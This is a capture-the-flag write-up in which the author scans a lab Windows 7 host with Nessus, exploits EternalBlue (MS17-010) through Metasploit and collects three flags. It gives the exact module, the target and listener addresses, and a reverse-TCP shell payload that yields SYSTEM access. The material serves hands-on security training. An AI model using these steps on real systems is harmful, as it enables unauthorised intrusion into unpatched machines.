

Victim IP - 10.10.132.215

I want to discover what vulnerabilities and ports are open on this victim IP before I can attempt to gain access.  This can be done by utilising an nmap scan using the --script vuln or by using Nessus Scanner.  

I am going to use a Nessus Scan.

I select the Advanced Scan option and enter the IP 10.10.132.215.  The advanced Scan option will not only allow for host and port discovery, but vulnerabilities and other information.

The nessus scan results identify 25 vulnerabilities and the OS as a windows 7.  Investigating the Windows issues reveals the this machine is vulnerable to Eternal Blue  

We can use the metasploit exploit database to search for payloads associated with `ms17-010` (commonly known as eternal blue).

I execute `sudo msfdb init && msfconsole` to launch msfconsole.

Entering the command `search ms17-010` will search the databse for exploits associated with eternal blue.

Multiple results have come up.  I will use the 1st exploit in the `0` index.  I can do this by entering the command `use exploit/windows/smb/ms17_010_eternalblue` or by entering `0`

We will then have to set the payload options by utilising the following commands:

**set rhosts 10.10.132.215**

**set lhost 10.4.66.178**

**set rport 445**

**set payload windows/x64/shell/reverse_tcp**

After setting the configuring the payload, executing the `run` command will launch the payload to the target.

We have now gained remote root shell access to the windows Machine.  From here I attempt to navigate around the C drive to locate anything useful with a combination of `dir` and `cd..` commands.  

I locate flag1.txt in the C:\ folder.  The flag is revealed as `flag{access_the_machine}`

After poking around and ending up in C:\Users\Jon\Documents I locate the flag3.txt.  The flag is revealed as `flag{admin_documents_can_be_valuable}`

After some time I end up navigating to the C:\Windows\System32 - this is where crucial files are located that allow Windows to fucntion.  I cd into \config and locate flag2.txt.  The flag is revealed as `flag{sam_database_elevated_access}`

Entering the command `whoami` reveals that we the msf exploit we executed has given us nt authority\system access.

